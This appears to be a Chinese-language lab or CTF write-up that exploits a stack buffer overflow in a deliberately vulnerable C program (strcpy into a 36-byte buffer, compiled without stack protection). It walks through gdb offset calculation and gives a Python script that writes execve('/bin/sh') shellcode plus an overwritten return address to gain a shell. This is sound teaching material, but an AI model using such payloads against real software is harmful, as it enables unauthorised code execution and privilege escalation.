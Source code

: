 第二道题，利用缓冲区溢出来实现控制流劫持攻击。首先是源代码。
```c
// buf2.c
// gcc -z execstack -o buf2 buf2.c -fno-stack-protector

#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void vul(char *str) {
    char buffer[36];
    // buffer overflow
    strcpy(buffer, str);
}

int main(int argc, char **argv) {
    char str[128];
    FILE *file;
    file = fopen("attack_input2", "r");
    fread(str, sizeof(char), 128, file);
    vul(str);
    printf("Returned Properly\n");
    return 0;
}
```
梳理结构：file 打开一个文本，128 字节大小的 str 数组从文件中读取 128 个字符，这一步暂时没有漏洞。
之后进入 vul 函数中，不带长度检查的 strcpy 函数将 str 开头的字符串全部写入 36 字节长的buffer，之后函数返回。漏洞就存在于这一步，由于我们关闭了 ASLR ，每次运行程序时栈地址是相同的。可以通过构造载荷将函数返回地址覆盖到 shellcode 中，实现进程提权。
有以下思路：

1. buffer 的起始位置放置 shellcode；
2. 之后填充内容使缓冲区溢出；
3. 计算返回地址的内存位置与 buffer 起始处的距离，并将此地址改为 shellcode 地址。

那么首先我们可以通过 gdb 调试程序来观察 shellcode 和返回地址的偏移量、shellcode 首地址，返回地址和 buffer 的偏移量。
![Pwnhub-2024-05-20-23-14-05.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1716218056753-b7479333-dc00-439e-ae6f-e8eb31c648de.png#averageHue=%234e5139&clientId=ud2eb6014-805a-4&from=ui&height=875&id=uc0ae2001&originHeight=1440&originWidth=2560&originalType=binary&ratio=1&rotation=0&showTitle=false&size=2019039&status=done&style=none&taskId=u7e01dd1a-89ba-46ff-bd08-8987e8dab7e&title=&width=1555)
如上图所示 strcpy 函数调用开始，dst 和 src 地址都直接告诉了我们，可以计算出来。这段区间长度为 0x50 = 80 字节.
ebp 指针为 0xffffceb8，但注意这其实并不是主函数保存的 ebp。注意到箭头指向的地址为 0xffffcf68，表示这是上一个 ebp 值，也就是一个新旧 ebp 的覆写过程，故真正的主函数 ebp 为后者。
继续往下观察，在 strcpy 函数调用之前，存在将 ebp - 0x2c 的值赋给 edx 的汇编指令（lea edx,[ebp - 0x2c]），这就暗示了 buffer 相对于 ebp 的偏移量为 0x2c，即 buffer 起始地址为 0xffffcf68 - 0x2c = 0xffffcf3c。再加上 ebp 自身的四字节，所以 buffer 到返回地址的偏移量为 0x30。于是构造以下 payload：
```python
import sys
import struct
from pwn import *

shellcode = b'\x31\xc0' \
b'\x50' \
b'\x68\x2f\x2f\x73\x68' \
b'\x68\x2f\x62\x69\x6e' \
b'\x89\xe3' \
b'\x89\xc1' \
b'\x31\xd2' \
b'\xb0\x0b' \
b'\xcd\x80' \

offset = 0x30 # modify it
shell_addr = 0xffffcf3c # modify it with the address of shellcode
## Put the shellcode at the begin
buf = (shellcode) + (offset - len(shellcode) - 4) * b'\x90' + 2 * p32(shell_addr)

file = open('attack_input2', 'wb')
file.write(buf)
file.close()
```
拿到 shell！
![Pwnhub-2024-05-20-23-20-06.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1716218419469-98df4f63-462d-490d-8854-fac60dc34291.png#averageHue=%234f5139&clientId=ud2eb6014-805a-4&from=ui&height=875&id=u5b0011cb&originHeight=1440&originWidth=2560&originalType=binary&ratio=1&rotation=0&showTitle=false&size=2029623&status=done&style=none&taskId=u4141c3d2-dc3c-44b3-aecb-b568a3c3771&title=&width=1555)
